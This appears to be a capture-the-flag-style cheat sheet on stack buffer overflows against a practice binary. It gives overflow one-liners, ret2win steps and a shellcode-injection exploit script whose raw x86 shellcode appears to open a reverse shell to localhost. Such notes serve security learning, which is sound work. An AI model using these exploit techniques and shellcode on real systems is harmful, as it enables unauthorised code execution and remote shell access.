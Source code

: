 # Stack Based Buffer Overflows

## Basics

Look for dangerous methods such as "gets()"  
- These do not check the length of the input and simply retreive all that is given  

## Passing Input

If input is retreived after the program has started:  

```bash
python2 -c 'print("A"*64 + "\x9d\x06\x40\x00\x00\x00\x00\x00")' | ./vuln
```

If the input needs to be provided as a commandline arg, place it in backticks (\`):  

```bash
./vuln `python2 -c 'print("A"*64 + "\x9d\x06\x40\x00\x00\x00\x00\x00")'`
```

## Environment Variables

If environment variables are pulled into the binary, you can set variables to print shellcode  

```bash
export EnvVar=`python2 -c 'print("A"*64 + "\xef\xbe\xad\xde")'`
./vuln
```

## RET2WIN (w/out ASLR or PIE)

1. Find the number of chars to overwrite the return address

```bash
# sudo apt install python3-pwntools
cyclic 100
```

2. Supply the above output to the appropriate input
3. In a debugger or from the terminal output, take the supplied return address, convert it to ascii and reverse it
4. Supply this value back to `cyclic`

```bash
cyclic -l waaa
```

5. Use `objdump` or a debugger to find the WIN address

```bash
objdump -d vuln
# or in GDB
i functions
```

6. Send the payload

```bash
python2 -c 'print("A"*88 + "\xef\xbe\xad\xde")' | ./vuln
```

## Shellcode Injection

1. Find the number of chars to overwrite the return address

```bash
# sudo apt install python3-pwntools
cyclic 100
```

2. Supply the above output to the appropriate input
3. In a debugger or from the terminal output, take the supplied return address, convert it to ascii and reverse it
4. Supply this value back to `cyclic`

```bash
cyclic -l waaa
```

5. User `ropper` to find gadgets to return you to your shellcode, or manually select a return address that is inside a nopsled
6. Create shellcode and create an exploit script

```python
offset = 140

nopsled = "\x90" * 15

buf =  b""
buf += b"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0"
buf += b"\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9"
buf += b"\x68\x7f\x00\x00\x01\x68\x02\x00\x11\x5c\x89\xe1"
buf += b"\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
buf += b"\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
buf += b"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

junk = "\x90" * (offset - (len(nopsled) + len(buf) ))

ret_addr = "\x50\x83\x04\x08"       # 0x08048350: call eax;

print(nopsled + buf + junk + ret_addr)
```

7. Send the output to the vulnerable program

`python2 exploit.py | ./vuln`






